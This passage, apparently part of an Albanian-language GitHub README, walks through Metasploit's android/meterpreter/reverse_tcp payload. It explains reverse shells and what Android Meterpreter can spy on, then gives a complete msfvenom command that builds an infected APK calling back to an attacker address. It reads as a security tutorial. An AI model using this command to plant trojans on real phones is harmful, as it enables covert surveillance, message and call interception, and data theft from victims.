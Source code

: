 ```
msf6 > search type:payload platform:android

Matching Modules
================

   #  Name                                       Disclosure Date  Rank    Check  Description
   -  ----                                       ---------------  ----    -----  -----------
   .............................................................................................................................
   2  payload/android/meterpreter/reverse_tcp                     normal  No     Android Meterpreter, Android Reverse TCP Stager
   .............................................................................................................................
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Payload `android/meterpreter/reverse_tcp` përdoret për sistemin android. Meterpreter është shkurtesë për meta interpreter që është një payload i cili mundëson vendosjen e komunikimit mes sulmuesit dhe targetit si dhe shkëmbimin e të dhënave prej sistemit të kompromentuar tek sulmuesi përmes komandave që jepen nga sulmuesi në njërën anë të soketit. Reverse_tcp nënkupton që përdoret meterpreter si reverse shell që është një shell në të cilin sistemi i targetuar, komunikon përsëri mbrapsht me sistemin sulmues. Sistemi sulmues cakton një port për dëgjim në të cilin pret lidhjen me targetin dhe përmes përdorimit të të cilit realizohet ekzekutimi i komandave pasuese.



<center>
<img src="READMEresources/reverse_shell.png">
<figcaption><small><i>Fig. 1: Ilustrimi se si funksionon reverse shell</i></small></figcaption>
</center>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Android Meterpreter mundëson marrjen e informatave nga folderët e sistemit, përgjimin e thirrjeve telefonike, leximin dhe dërgimin e mesazheve, leximin e regjistrit të telefonatave, përdorimin e kamerave të sistemit, etj.

### Krijimi i android aplikacionit të infektuar

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Për të krijuar një APK (Android Package) fajll të infektuar përdorim `msfvenom` e cila është një instancë e Metasploit, funsionaliteti i së cilës kombinon krijimin dhe enkodimin e ngarkesave për përdorime të ndryshme. &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Msfvenom përdoret për gjenerimin e ngarkesës sipas kërkesës dhe në varësi të disponueshmërisë së llojeve në Metasploit. Për të gjeneruar një `android/meterpreter/reverse_tcp` payload që do të instalohet në sistemin e targetuar, përmes msfvenom shkruajmë komandën:

```
$ msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.12 LPORT=4444 R > /root/Desktop/OurApp.apk
```
